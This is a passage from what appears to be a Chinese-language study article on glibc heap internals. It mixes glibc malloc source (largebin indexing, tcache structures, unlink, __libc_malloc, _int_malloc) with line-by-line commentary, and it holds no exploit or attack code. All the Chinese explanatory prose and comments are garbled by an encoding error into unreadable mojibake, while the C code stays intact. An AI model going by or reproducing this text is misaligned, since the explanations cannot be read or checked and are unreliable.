((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
126)
// XXX It remains to be seen whether it is good to keep the widths of
// XXX the buckets the same or whether it should be scaled by a factor
// XXX of two as well.
#define largebin_index_64(sz) \
(((((unsigned long) (sz)) >> 6) <= 48) ? 48 + (((unsigned long) (sz)) >> 6) :\
((((unsigned long) (sz)) >> 9) <= 20) ? 91 + (((unsigned long) (sz)) >> 9) :\
((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
126)
#define largebin_index(sz) \
(SIZE_SZ == 8 ? largebin_index_64 (sz) \
: MALLOC_ALIGNMENT == 16 ? largebin_index_32_big (sz) \
: largebin_index_32 (sz))

largebins是一个åŒé“¾çš„循ç¯åˆ—表集åˆï¼Œæ¯ä¸ªåˆ—表都有一定范围内的空闲å—。æ¯ä¸ª arena 有63个 bigbins，æ¯ä¸ª large bin负责容纳大å°ä¸º0x400以上的空闲å—。例如，一个0x400çš„ large binå˜æ”¾å¤§å°åœ¨ 0x400-0x430之间的空闲å—，而一个0x2000çš„ large binå˜æ”¾å¤§å°åœ¨0x2000-0x21f0之间的å—。
æ¯ä¸ªå¤§bin的头部都在它的arenaä¸ï¼Œå°½ç®¡å…¶ä¸çš„åç»å—之间的链æ¥æ˜¯é€šè¿‡å†…è”å˜å‚¨ã€‚当æ’åºå‘生时，自由å—åªé€šè¿‡å…¶ç«æŠ€åœºçš„unsorted bin链æ¥åˆ°å…¶ç›¸åº”çš„ large bin。
large bin 是按大å°é¡ºåºç»´æŠ¤çš„，该 binä¸æœ€å¤§çš„å—å¯ä»¥é€šè¿‡binçš„fd指针访问，最å°çš„å—å¯ä»¥é€šè¿‡ bk 访问。当一个å—被链æ¥åˆ°ä¸€ä¸ªlaege bin时，其用户数æ®çš„第一个四å—节被é‡æ–°ç”¨ä½œå‰å‘指针（fd ），第二个四å—节被é‡æ–°ç”¨ä½œåå‘指针（bk）。
第一个被链æ¥åˆ° largebin 的大å°çš„å—，其用户数æ®çš„第三个和第四个四å—被é‡æ–°ç”¨ä½œè·³è¿‡åˆ—表指针， 分别是fd_nextsizeå’Œbk_nextsize。这些nextsize指针形æˆäº†å¦ä¸€ä¸ªåŒé“¾æ¥çš„循ç¯åˆ—表，其ä¸åŒ…å«äº†é“¾æ¥åˆ°è¯¥binçš„æ¯ä¸ªå¤§å°çš„第一个å—。一旦其大å°çš„第一个å—被链æ¥åˆ°ä¸€ä¸ªlaege binä¸ï¼Œéšå的相åŒå¤§å°çš„å—è¢«æ·»åŠ åˆ°è¯¥å¤§å°çš„第一个å—之å，以é¿å…é‡æ–°è·¯ç”±è·³è¿‡åˆ—表。
在请求期间，在unsorted bin扫æ之å，但在binmapæœç´¢ä¹‹å‰ï¼Œå¯¹å¤§å°ä¸º0x400åŠä»¥ä¸Šçš„å—进行 large bin çš„æœç´¢ã€‚在 large binæœç´¢è¿‡ç¨‹ä¸ï¼Œmallocç¡®ä¿é€‚当的bin拥有足够大的å—æ¥æ”¯æŒè¯·æ±‚；如æœæ˜¯è¿™æ ·ï¼Œåˆ™ä»åå¾€å‰æ‰«æbin，寻找一个完全åˆé€‚或更大的å—。当它是其大å°çš„最å一个å—，malloc就分é…æŒæœ‰è·³è¿‡åˆ—表指针的å—，å¦åˆ™å®ƒå°±åˆ†é…跳过å—之å的相åŒå¤§å°çš„å—，这就é¿å…了频ç¹åœ°é‡æ–°è·¯ç”±è·³è¿‡åˆ—表。
任何æ¥è‡ª large bin çš„é精确拟åˆåˆ†é…都会被耗尽或剩余，但last_remainderå—段ä¸ä¼šè¢«è®¾ç½®ã€‚
/* We want 64 entries. This is an arbitrary limit, which tunables can reduce. */
# define TCACHE_MAX_BINS 64
# define MAX_TCACHE_SIZE tidx2usize (TCACHE_MAX_BINS-1)
/* Only used to pre-fill the tunables. */
# define tidx2usize(idx) (((size_t) idx) * MALLOC_ALIGNMENT + MINSIZE - SIZE_SZ)
/* When "x" is from chunksize(). */
# define csize2tidx(x) (((x) - MINSIZE + MALLOC_ALIGNMENT - 1) / MALLOC_ALIGNMENT)
/* When "x" is a user-provided size. */
# define usize2tidx(x) csize2tidx (request2size (x))
/* With rounding and alignment, the bins are...
idx 0 bytes 0..24 (64-bit) or 0..12 (32-bit)
idx 1 bytes 25..40 or 13..20
idx 2 bytes 41..56 or 21..28
etc. */
/* This is another arbitrary limit, which tunables can change. Each
tcache bin will hold at most this number of chunks. */
# define TCACHE_FILL_COUNT 7
/* Maximum chunks in tcache bins for tunables. This value must fit the range
of tcache->counts[] entries, else they may overflow. */
# define MAX_TCACHE_COUNT UINT16_MAX
/* We overlay this structure on the user-data portion of a chunk when
the chunk is stored in the per-thread cache. */
// 2.27
typedef struct tcache_entry
{
struct tcache_entry *next;
} tcache_entry;
// >= 2.29
typedef struct tcache_entry
{
struct tcache_entry *next;
/* This field exists to detect double frees. */
uintptr_t key;
} tcache_entry;
/* There is one of these for each thread, which contains the
per-thread cache (hence "tcache_perthread_struct"). Keeping
overall size low is mildly important. Note that COUNTS and ENTRIES
are redundant (we could have just counted the linked list each
time), this is for performance reasons. */
// 2.27
typedef struct tcache_perthread_struct
{
char counts[TCACHE_MAX_BINS];
tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
// >= 2.30
typedef struct tcache_perthread_struct
{
uint16_t counts[TCACHE_MAX_BINS];
tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
在GLIBC主版本>=2.26ä¸ï¼Œæ¯ä¸ªçº¿ç¨‹éƒ½è¢«åˆ†é…了自己的结æ„，称为tcache，或线程缓å˜ã€‚tcache 的行为就åƒä¸€ä¸ª arenaï¼Œä½†ä¸ arena ä¸åŒçš„是，tcacheä¸åœ¨çº¿ç¨‹ä¹‹é—´å…±äº«ã€‚它们是通过在å±äºçº¿ç¨‹ arena çš„å †ä¸Šåˆ†é…空间æ¥åˆ›å»ºçš„，并在线程退出时被释放。tcache的目的是缓解线程对malloc资æºçš„争夺，给æ¯ä¸ªçº¿ç¨‹æ供自己的å—的集åˆï¼Œä¸ä¸ä½¿ç”¨åŒä¸€ arena 的其他线程共享 。 一个缓å˜çš„å½¢å¼æ˜¯ä¸€ä¸ªtcache_perthread_struct，如下图11所示，它æŒæœ‰64个tcachebins的头部 ，å‰é¢æ˜¯ä¸€ä¸ªè®¡æ•°å™¨é˜µåˆ—，记录了æ¯ä¸ªtcachebinä¸ç©ºé—²å—çš„æ•°é‡ã€‚

在默认情况下，一个tcacheæŒæœ‰å¤§å°ä¸º0x20-0x410（å«ï¼‰ çš„å—。这些tcachebins的行为ä¸fastbins类似，æ¯ä¸ªtcachebins都是一个å•é“¾çš„ã€é循ç¯çš„特定大å°çš„空闲å—列表的头部。counts数组的第一个æ¡ç›®è®°å½•äº†é“¾æ¥åˆ°0x20 tcachebin的空闲å—çš„ æ•°é‡ï¼Œç¬¬äºŒä¸ªæ¡ç›®è·Ÿè¸ª0x30 tcachebin，ç‰ç‰ã€‚
在默认情况下，tcachebinå¯ä»¥å®¹çº³çš„空闲å—çš„æ•°é‡æ˜¯æœ‰é™åˆ¶çš„，这个数å—在malloc_par结æ„ä¸ çš„tcache_countå—段ä¸ã€‚当tcachebin的计数达到这个é™åˆ¶æ—¶ï¼Œè¯¥bin大å°çš„空闲å—就会被当作没有tcache的情况下处ç†ã€‚例如，如æœ0x20 tcachebinå·²ç»æ»¡äº†ï¼ˆå®ƒæŒæœ‰7个空闲å—），下一个 0x20大å°çš„å—将被释放到0x20 fastbinä¸ã€‚Malloc使用tcacheçš„counts数组æ¥ç¡®å®šbin是å¦å·²æ»¡ã€‚
在GLIBC版本>=2.29ä¸ï¼Œé“¾æ¥åˆ°tcachebin的空闲å—第二个的四å—节被é‡æ–°åˆ©ç”¨ä¸º “key “å—段，用äºæ£€æµ‹double情况。在GLIBC 2.34之å‰ï¼Œtcacheçš„keyå—段æŒæœ‰å…¶tcache的地å€ï¼Œ2.34åŠä»¥å的版本使用一个éšæœºå€¼ã€‚

tcache fd 指针使用指å‘用户数æ®è€Œä¸æ˜¯å—的元数æ®ã€‚
/* addressing -- note that bin_at(0) does not exist */
#define bin_at(m, i) \
(mbinptr) (((char *) &((m)->bins[((i) - 1) * 2])) \
- offsetof (struct malloc_chunk, fd))
/* analog of ++bin */
#define next_bin(b) ((mbinptr) ((char *) (b) + (sizeof (mchunkptr) << 1)))
/* Reminders about list directionality within bins */
#define first(b) ((b)->fd)
#define last(b) ((b)->bk)
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) { \
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)) \
malloc_printerr ("corrupted size vs. prev_size"); \
FD = P->fd; \
BK = P->bk; \
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) \
malloc_printerr ("corrupted double-linked list"); \
else { \
FD->bk = BK; \
BK->fd = FD; \
if (!in_smallbin_range (chunksize_nomask (P)) \
&& __builtin_expect (P->fd_nextsize != NULL, 0)) { \
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0) \
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0)) \
malloc_printerr ("corrupted double-linked list (not small)"); \
if (FD->fd_nextsize == NULL) { \
if (P->fd_nextsize == P) \
FD->fd_nextsize = FD->bk_nextsize = FD; \
else { \
FD->fd_nextsize = P->fd_nextsize; \
FD->bk_nextsize = P->bk_nextsize; \
P->fd_nextsize->bk_nextsize = FD; \
P->bk_nextsize->fd_nextsize = FD; \
} \
} else { \
P->fd_nextsize->bk_nextsize = P->bk_nextsize; \
P->bk_nextsize->fd_nextsize = P->fd_nextsize; \
} \
} \
} \
}
/* Take a chunk off a bin list. */
static void unlink_chunk (mstate av, mchunkptr p)
{
if (chunksize (p) != prev_size (next_chunk (p)))
malloc_printerr ("corrupted size vs. prev_size");
mchunkptr fd = p->fd;
mchunkptr bk = p->bk;
if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
malloc_printerr ("corrupted double-linked list");
fd->bk = bk;
bk->fd = fd;
if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
{
if (p->fd_nextsize->bk_nextsize != p
|| p->bk_nextsize->fd_nextsize != p)
malloc_printerr ("corrupted double-linked list (not small)");
if (fd->fd_nextsize == NULL)
{
if (p->fd_nextsize == p)
fd->fd_nextsize = fd->bk_nextsize = fd;
else
{
fd->fd_nextsize = p->fd_nextsize;
fd->bk_nextsize = p->bk_nextsize;
p->fd_nextsize->bk_nextsize = fd;
p->bk_nextsize->fd_nextsize = fd;
}
}
else
{
p->fd_nextsize->bk_nextsize = p->bk_nextsize;
p->bk_nextsize->fd_nextsize = p->fd_nextsize;
}
}
}
/* Check if m has acceptable alignment */
#define aligned_OK(m) (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)
#define misaligned_chunk(p) \
((uintptr_t)(MALLOC_ALIGNMENT == 2 * SIZE_SZ ? (p) : chunk2mem (p)) \
& MALLOC_ALIGN_MASK)
struct malloc_par
{
/* Tunable parameters */
unsigned long trim_threshold;
INTERNAL_SIZE_T top_pad;
INTERNAL_SIZE_T mmap_threshold;
INTERNAL_SIZE_T arena_test;
INTERNAL_SIZE_T arena_max;
/* Memory map support */
int n_mmaps;
int n_mmaps_max;
int max_n_mmaps;
/* the mmap_threshold is dynamic, until the user sets
it manually, at which point we need to disable any
dynamic behavior. */
int no_dyn_threshold;
/* Statistics */
INTERNAL_SIZE_T mmapped_mem;
INTERNAL_SIZE_T max_mmapped_mem;
/* First address handed out by MORECORE/sbrk. */
char *sbrk_base;
#if USE_TCACHE
/* Maximum number of buckets to use. */
size_t tcache_bins;
size_t tcache_max_bytes;
/* Maximum number of chunks in each bucket. */
size_t tcache_count;
/* Maximum number of chunks to remove from the unsorted list, which
aren't used to prefill the cache. */
size_t tcache_unsorted_limit;
#endif
};
/* There is only one instance of the malloc parameters. */
static struct malloc_par mp_ =
{
.top_pad = DEFAULT_TOP_PAD,
.n_mmaps_max = DEFAULT_MMAP_MAX,
.mmap_threshold = DEFAULT_MMAP_THRESHOLD,
.trim_threshold = DEFAULT_TRIM_THRESHOLD,
#define NARENAS_FROM_NCORES(n) ((n) * (sizeof (long) == 4 ? 2 : 8))
.arena_test = NARENAS_FROM_NCORES (1)
#if USE_TCACHE
,
.tcache_count = TCACHE_FILL_COUNT,
.tcache_bins = TCACHE_MAX_BINS,
.tcache_max_bytes = tidx2usize (TCACHE_MAX_BINS-1),
.tcache_unsorted_limit = 0 /* No limit. */
#endif
};
/*
malloc(size_t n)
Returns a pointer to a newly allocated chunk of at least n bytes, or null
if no space is available. Additionally, on failure, errno is
set to ENOMEM on ANSI C systems.
If n is zero, malloc returns a minumum-sized chunk. (The minimum
size is 16 bytes on most 32bit systems, and 24 or 32 bytes on 64bit
systems.) On most systems, size_t is an unsigned type, so calls
with negative arguments are interpreted as requests for huge amounts
of space, which will often fail. The maximum supported value of n
differs across systems, but is in all cases less than the maximum
representable value of a size_t.
*/
void *__libc_malloc(size_t bytes) {
mstate ar_ptr; // arena
void *victim; // 所返å›çš„å †å—
// è¯»å– __malloc_hook é’©å, 如æœæœ‰å€¼ï¼Œåˆ™è¿è¡Œé’©å函数并返å›
void *(*hook)(size_t, const void *)
= atomic_forced_read(__malloc_hook);
if (__builtin_expect(hook != NULL, 0))
return (*hook)(bytes, RETURN_ADDRESS (0));
// 使用 tchache 的情况
#if USE_TCACHE
/* int_free also calls request2size, be careful to not pad twice. */
size_t tbytes;
// 判æ–请求分é…å—节的大å°
// 计算 bytes æ•°æ®éœ€è¦åˆ†é…的内å˜å¤§å°ï¼Œå½“ bytes æ•°æ®çš„大å°æ¯”æœ€å° chunk è¦è¿˜å°æ—¶,
// æŒ‰æœ€å° chunk 的大å°åˆ†é…；当 bytes æ•°æ®çš„大å°æ¯”æœ€å° chunk 大时，则分é…满足内å˜
// bytes最大ä¸è¶…过(unsigned long) (INTERNAL_SIZE_T) (-2 * MINSIZE)
checked_request2size (bytes, tbytes);
// 计算 tbytes 大å°æ‰€å¯¹åº”çš„ tcache ä¸‹æ ‡
size_t tc_idx = csize2tidx (tbytes);
// å¦‚æœ tcache 还没有被创建，则调用 tcache_init() åˆå§‹åŒ– tcache
MAYBE_INIT_TCACHE ();
DIAG_PUSH_NEEDS_COMMENT;
// å¦‚æœ tc_idx 在 tcache bins 的范围内
// 且 tcache å˜åœ¨
// 且 tc_idx 对应的 entry ä¸ä¸ºç©º å³ æœ‰ç©ºé—²çš„ tcache chunk
if (tc_idx < mp_.tcache_bins
/*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
&& tcache
&& tcache->entries[tc_idx] != NULL)
{
// è¿”å›ç›¸åº”çš„ tcache chunk
return tcache_get (tc_idx);
}
DIAG_POP_NEEDS_COMMENT;
#endif
// 没有å¯ç”¨å¤šçº¿ç¨‹çš„情况
if (SINGLE_THREAD_P) {
// 调用 _int_malloc è·å– chunk
victim = _int_malloc(&main_arena, bytes);
// 满足以下 3 个æ¡ä»¶ä»»æ„一个å³å¯è¿”å›
// 1. victim 为空
// 2. victim æ˜¯ä» mmap 分é…çš„
// 3. victim 是ä»ä¸»åˆ†é…区（main_arena）分é…çš„
assert(!victim || chunk_is_mmapped (mem2chunk(victim)) ||
&main_arena == arena_for_chunk (mem2chunk(victim)));
return victim;
}
// å¯ç”¨å¤šçº¿ç¨‹çš„情况
// è·å–当å‰çš„ arena
arena_get (ar_ptr, bytes);
// 调用 _int_malloc è·å– chunk
victim = _int_malloc(ar_ptr, bytes);
/* Retry with another arena only if we were able to find a usable arena
before. */
// 如æœæœªæˆåŠŸè·å– arena, æˆ–è€…æ²¡æœ‰åˆ†é… chunk
if (!victim && ar_ptr != NULL) {
LIBC_PROBE(memory_malloc_retry, 1, bytes);
// å†æ¬¡å°è¯•
ar_ptr = arena_get_retry(ar_ptr, bytes);
victim = _int_malloc(ar_ptr, bytes);
}
// 释放线程é”
if (ar_ptr != NULL)
__libc_lock_unlock(ar_ptr->mutex);
// 满足以下 3 个æ¡ä»¶ä»»æ„一个å³å¯è¿”å›
// 1. victim 为空
// 2. victim æ˜¯ä» mmap 分é…çš„
// 3. victim 是ä»ä¸»åˆ†é…区（main_arena）分é…çš„
assert(!victim || chunk_is_mmapped (mem2chunk(victim)) ||
ar_ptr == arena_for_chunk (mem2chunk(victim)));
return victim;
}
#if USE_TCACHE
...
static __thread bool tcache_shutting_down = false;
static __thread tcache_perthread_struct *tcache = NULL;
...
# define MAYBE_INIT_TCACHE() \
if (__glibc_unlikely (tcache == NULL)) \
tcache_init();
#else /* !USE_TCACHE */
# define MAYBE_INIT_TCACHE()
static void
tcache_thread_shutdown(void) {
/* Nothing to do if there is no thread cache. */
}
#endif /* !USE_TCACHE */
static void tcache_init(void)
{
mstate ar_ptr;
void *victim = 0;
// 计算 tcahce_perthread_struct 结æ„体的大å°
const size_t bytes = sizeof (tcache_perthread_struct);
// å¦‚æœ tcache 被ç¦ç”¨ï¼Œç›´æ¥è¿”å›
if (tcache_shutting_down)
return;
// ç»™ tcache 分é…相应的内å˜
arena_get (ar_ptr, bytes);
victim = _int_malloc (ar_ptr, bytes);
if (!victim && ar_ptr != NULL)
{
ar_ptr = arena_get_retry (ar_ptr, bytes);
victim = _int_malloc (ar_ptr, bytes);
}
if (ar_ptr != NULL)
__libc_lock_unlock (ar_ptr->mutex);
/* In a low memory situation, we may not be able to allocate memory
- in which case, we just keep trying later. However, we
typically do this very early, so either there is sufficient
memory, or there isn't enough memory to do non-trivial
allocations anyway. */
if (victim)
{
// 给 tcache 赋值
tcache = (tcache_perthread_struct *) victim;
// å°† tcache 处的内å˜åˆå§‹åŒ–为 0
memset (tcache, 0, sizeof (tcache_perthread_struct));
}
}
static void tcache_thread_shutdown (void)
{
int i;
tcache_perthread_struct *tcache_tmp = tcache;
// tcache ä¸å˜åœ¨ç›´æ¥è¿”å›
if (!tcache)
return;
/* Disable the tcache and prevent it from being reinitialized. */
// ç¦ç”¨ tcache 并防æ¢å®ƒè¢«é‡æ–°åˆå§‹åŒ–
tcache = NULL;
tcache_shutting_down = true;
/* Free all of the entries and the tcache itself back to the arena
heap for coalescing. */
// 将所有æ¡ç›®å’Œ tcache æœ¬èº«é‡Šæ”¾å› arena 以进行åˆå¹¶
for (i = 0; i < TCACHE_MAX_BINS; ++i)
{
while (tcache_tmp->entries[i])
{
tcache_entry *e = tcache_tmp->entries[i];
tcache_tmp->entries[i] = e->next;
__libc_free (e);
}
}
__libc_free (tcache_tmp);
}
/* Caller must ensure that we know tc_idx is valid and there's
available chunks to remove. */
static __always_inline void * tcache_get (size_t tc_idx)
{
// å–出 tc_idx 所对应的链表
tcache_entry *e = tcache->entries[tc_idx];
assert (tc_idx < TCACHE_MAX_BINS);
assert (tcache->entries[tc_idx] > 0);
// å–出第一个
tcache->entries[tc_idx] = e->next;
// 对应的 tcache_count - 1
--(tcache->counts[tc_idx]);
// è¿”å› chunk
return (void *) e;
}
static void *_int_malloc(mstate av, size_t bytes) {
INTERNAL_SIZE_T nb; /* normalized request size */
unsigned int idx; /* associated bin index */
mbinptr bin; /* associated bin */
mchunkptr victim; /* inspected/selected chunk */
INTERNAL_SIZE_T size; /* its size */
int victim_index; /* its bin index */
mchunkptr remainder; /* remainder from a split */
unsigned long remainder_size; /* its size */
unsigned int block; /* bit map traverser */
unsigned int bit; /* bit map traverser */
unsigned int map; /* current word of binmap */
mchunkptr fwd; /* misc temp for linking */
mchunkptr bck; /* misc temp for linking */
#if USE_TCACHE
size_t tcache_unsorted_count; /* count of unsorted chunks processed */
#endif
/*
Convert request size to internal form by adding SIZE_SZ bytes
overhead plus possibly more to obtain necessary alignment and/or
to obtain a size of at least MINSIZE, the smallest allocatable
size. Also, checked_request2size traps (returning 0) request sizes
that are so large that they wrap around zero when padded and
aligned.
*/
// 检查请求大å°æ˜¯å¦åˆè§„
// 计算 bytes æ•°æ®éœ€è¦åˆ†é…的内å˜å¤§å°ï¼Œå½“ bytes æ•°æ®çš„大å°æ¯”æœ€å° chunk è¦è¿˜å°æ—¶,
// æŒ‰æœ€å° chunk 的大å°åˆ†é…；当 bytes æ•°æ®çš„大å°æ¯”æœ€å° chunk 大时，则分é…满足内å˜
// bytes最大ä¸è¶…过(unsigned long) (INTERNAL_SIZE_T) (-2 * MINSIZE)
checked_request2size (bytes, nb);
/* There are no usable arenas. Fall back to sysmalloc to get a chunk from
mmap. */
// 如æœæ²¡æœ‰å¯ç”¨çš„分é…区，则调用 sysmalloc è·å– chunk
if (__glibc_unlikely(av == NULL)) {
void *p = sysmalloc(nb, av);
if (p != NULL)
/*
* static int perturb_byte;
static void
alloc_perturb(char *p, size_t n) {
if (__glibc_unlikely(perturb_byte))
memset(p, perturb_byte ^ 0xff, n);
}
*/
//å°† p 全部设置为 perturb_byte ,默认什么也ä¸åš
alloc_perturb(p, bytes);
return p;
}
/*
If the size qualifies as a fastbin, first check corresponding bin.
This code is safe to execute even if av is not yet initialized, so we
can try it without checking, which saves some time on this fast path.
*/
#define REMOVE_FB(fb, victim, pp) \
do \
{ \
victim = pp; \
if (victim == NULL) \
break; \
} \
while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim)) \
!= victim); \
// catomic_compare_and_exchange_val_rel_acq 功能是 如æœ*fbç‰äºvictim，则将*fbå˜å‚¨ä¸ºvictim->fd，返å›victimï¼›
// 其作用是ä»åˆšåˆšå¾—到的空闲chunk链表指针ä¸å–出第一个空闲的chunk(victim)，并将链表头设置为该空闲chunk的下一个chunk(victim->fd)
// 如æœè§„范化åçš„å¤§å° å°äºç‰äº fast bins ä¸çš„最大 chunk 大å°
if ((unsigned long) (nb) <= (unsigned long) (get_max_fast())) {
// 在 fastbin ä¸æ‹¿åˆ°ç›¸åº”的索引
idx = fastbin_index (nb);
// å–得对应 fastbin ä¸çš„第一个 chunk
mfastbinptr *fb = &fastbin (av, idx);
mchunkptr pp;
victim = *fb;
// 如æœè¯¥ fastbin ä¸æœ‰å€¼
if (victim != NULL) {
// 如æœæ˜¯å•çº¿ç¨‹
if (SINGLE_THREAD_P)
// å–出 victim
*fb = victim->fd;
else
// å–出 victim
REMOVE_FB (fb, pp, victim);
// victim ä¸ä¸ºç©º
if (__glibc_likely(victim != NULL)) {
// 计算 victim 所对应的 fastbin 索引
size_t victim_idx = fastbin_index (chunksize(victim));
// 所分é…给的 victim çš„ victim_idx è¦å’Œ 刚开始计算出的 idx 相ç‰
if (__builtin_expect(victim_idx != idx, 0))
malloc_printerr("malloc(): memory corruption (fast)");
// 啥也没干
check_remalloced_chunk (av, victim, nb);
// 如æœä½¿ç”¨ tcache
#if USE_TCACHE
/* While we're here, if we see other chunks of the same size,
stash them in the tcache. */
// å–得对应大å°çš„ tcache idx
size_t tc_idx = csize2tidx (nb);
// 检查 tcache
if (tcache && tc_idx < mp_.tcache_bins)
{
mchunkptr tc_victim;
/* While bin not empty and tcache not full, copy chunks. */
// tc_idx 所对应的 entry 未满， 且相应大å°çš„ fastbin 还有值
// 就把 fastbin ä¸çš„值移至 tcache bin ä¸ï¼Œç›´åˆ° tcache 已满
while (tcache->counts[tc_idx] < mp_.tcache_count
&& (tc_victim = *fb) != NULL)
{
if (SINGLE_THREAD_P)
*fb = tc_victim->fd;
else
{
REMOVE_FB (fb, pp, tc_victim);
if (__glibc_unlikely (tc_victim == NULL))
break;
}
// å°† fast bin ä¸çš„ chunk æ’å…¥ tcache bin ä¸
tcache_put (tc_victim, tc_idx);
}
}
#endif
// 拿到用户指针
void *p = chunk2mem (victim);
// å°† p 全部设置为 perturb_byte ,默认什么也ä¸åš
alloc_perturb(p, bytes);
// è¿”å›
return p;
}
}
}
/*
If a small request, check regular bin. Since these "smallbins"
hold one size each, no searching within bins is necessary.
(For a large request, we need to wait until unsorted chunks are
processed to find best fit. But for small ones, fits are exact
anyway, so we can check now, which is faster.)
*/
// 如æœè§„范化åçš„å¤§å° åœ¨ samllbin çš„åºåˆ—之ä¸
if (in_smallbin_range (nb)) {
// 拿到 相应的索引
idx = smallbin_index (nb);
// 在 arena 上找到相应的ä½ç½®
bin = bin_at (av, idx);
// è¡¨æ˜ è¯¥ bin ä¸æœ‰å€¼
if ((victim = last (bin)) != bin) {
// 拿到 victim 的 bk
bck = victim->bk;
// 验è¯
if (__glibc_unlikely(bck->fd != victim))
malloc_printerr("malloc(): smallbin double linked list corrupted");
/*
#define set_inuse_bit_at_offset(p, s) \
(((mchunkptr) (((char *) (p)) + (s)))->mchunk_size |= PREV_INUSE)
*/
// 设置 victim 物ç†ç›¸é‚»çš„下一个 chunk çš„ prev_inuse ä½
set_inuse_bit_at_offset (victim, nb);
// 拿出 victim
bin->bk = bck;
bck->fd = bin;
// 设置 non_main_arena
if (av != &main_arena)
set_non_main_arena (victim);
// 啥也没干
check_malloced_chunk (av, victim, nb);
// 和之å‰çš„ä¸€æ ·
// 如æœå¯¹åº”çš„ tcache bin 未满， 则将 small bin ä¸çš„值一个一个的移过å»
// 直至对应的 tcache bin 已满
#if USE_TCACHE
/* While we're here, if we see other chunks of the same size,
stash them in the tcache. */
size_t tc_idx = csize2tidx (nb);
if (tcache && tc_idx < mp_.tcache_bins)
{
mchunkptr tc_victim;
/* While bin not empty and tcache not full, copy chunks over. */
while (tcache->counts[tc_idx] < mp_.tcache_count
&& (tc_victim = last (bin)) != bin)
{
if (tc_victim != 0)
{
bck = tc_victim->bk;
set_inuse_bit_at_offset (tc_victim, nb);
if (av != &main_arena)
set_non_main_arena (tc_victim);
bin->bk = bck;
bck->fd = bin;
tcache_put (tc_victim, tc_idx);
}
}
}
#endif
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
}
/*
If this is a large request, consolidate fastbins before continuing.
While it might look excessive to kill all fastbins before
even seeing if there is space available, this avoids
fragmentation problems normally associated with fastbins.
Also, in practice, programs tend to have runs of either small or
large requests, but less often mixtures, so consolidation is not
invoked all that often in most programs. And the programs that
it is called frequently in otherwise tend to fragment.
*/
// 就剩 large bin 了
else {
idx = largebin_index (nb);
// 如æœè¯¥ arena ä¸å˜åœ¨ fastbin 则调用 malloc_consolidate åˆå¹¶
if (atomic_load_relaxed(&av->have_fastchunks))
malloc_consolidate(av);
}
/*
Process recently freed or remaindered chunks, taking one only if
it is exact fit, or, if this a small request, the chunk is remainder from
the most recent non-exact fit. Place other traversed chunks in
bins. Note that this step is the only place in any routine where
chunks are placed in bins.
The outer loop here is needed because we might not realize until
near the end of malloc that we should have consolidated, so must
do so and retry. This happens at most once, and only when we would
otherwise need to expand memory to service a "small" request.
*/
#if USE_TCACHE
INTERNAL_SIZE_T tcache_nb = 0;
//è·å– nb 对应大å°çš„ tcache çš„ idx
size_t tc_idx = csize2tidx (nb);
// tcache å˜åœ¨ä¸”ä¸‹æ ‡ idx 在范围内
if (tcache && tc_idx < mp_.tcache_bins)
tcache_nb = nb;
int return_cached = 0;
tcache_unsorted_count = 0;
#endif
// å¤„ç† unsorted bin
for (;;) {
int iters = 0;
// unsorted bin ä¸æœ‰å€¼ï¼Œä¸”ä¸æ˜¯ arena 本身
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
{
// ä» bk 开始
bck = victim->bk;
// victim çš„ å¤§å° ä¸èƒ½å°äº 2 * SIZE_SZ
// 且ä¸èƒ½å¤§äº av->system_mem
if (__builtin_expect(chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
|| __builtin_expect(chunksize_nomask (victim)
> av->system_mem, 0))
malloc_printerr("malloc(): memory corruption");
// è®¡ç®—è¯¥å— æ ‡å‡†åŒ– å的大å°
size = chunksize (victim);
/*
If a small request, try to use last remainder if it is the
only chunk in unsorted bin. This helps promote locality for
runs of consecutive small requests. This is the only
exception to best-fit, and applies only when there is
no exact fit for a small chunk.
*/
// 如æœè¯·æ±‚的大å°åœ¨ smallbin åºåˆ—之ä¸
// unsorted bin ä¸åªæœ‰è¿™ä¸€ä¸ª chunk
// 并且该 victim 是 last remainder chunk
// 且该å—的大å°è¦å¤§äºè¯·æ±‚的大å°åŠ MINSIZE
if (in_smallbin_range (nb) &&
bck == unsorted_chunks (av) &&
victim == av->last_remainder &&
(unsigned long) (size) > (unsigned long) (nb + MINSIZE))
{
/* split and reattach remainder */
// 切割 remainder
remainder_size = size - nb;
remainder = chunk_at_offset (victim, nb);
// 把切割åçš„ remainder åŠ å…¥ unsorted bin ä¸
unsorted_chunks (av)->bk = unsorted_chunks (av)->fd = remainder;
// 记录新值
av->last_remainder = remainder;
// 进行链æ¥
remainder->bk = remainder->fd = unsorted_chunks (av);
// å¦‚æœ remainder_size 的值在 large bin ä¸
if (!in_smallbin_range (remainder_size)) {
// fd_nextsize,fd_nextsize清零
remainder->fd_nextsize = NULL;
remainder->bk_nextsize = NULL;
}
// #define set_head(p, s) ((p)->mchunk_size = (s)
// 设置 victim çš„ size æ ‡å¿—ä½
set_head (victim, nb | PREV_INUSE |
(av != &main_arena ? NON_MAIN_ARENA : 0));
// 设置 remainder çš„ size æ ‡å¿—ä½
set_head (remainder, remainder_size | PREV_INUSE);
// #define set_foot(p, s) (((mchunkptr) ((char *) (p) + (s)))->mchunk_prev_size = (s))
// 设置 remainder 的下一个 chunk çš„ prev_size ä½
set_foot (remainder, remainder_size);
// 啥也没干
check_malloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
/* remove from unsorted list */
// 将该 chunk ä» unsorted list 移除
